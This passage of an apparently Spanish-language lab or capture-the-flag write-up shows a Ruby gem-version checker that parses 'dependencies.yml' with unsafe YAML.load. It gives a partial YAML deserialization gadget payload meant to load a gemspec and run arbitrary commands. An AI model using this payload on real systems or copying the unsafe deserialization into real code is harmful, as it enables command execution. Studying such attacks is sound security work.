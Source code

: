 El script de ruby contiene lo siguiente:

{% highlight ruby %}
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
{% endhighlight %}

Está esperando un fichero YAML llamado "dependencies.yml" para ver si las versiones de las gemas que contiene son diferentes a las que están instaladas en el equipo.

Podemos abusar de este script introduciendo en el YAML un objeto que se va a deserializar, y al hacerlo cargará un archivo de especificación de gemas (gemspec) que ejecutará un comando arbitrario.

{% highlight yaml %}
-- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "test.gemspec"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
{% endhighlight %}
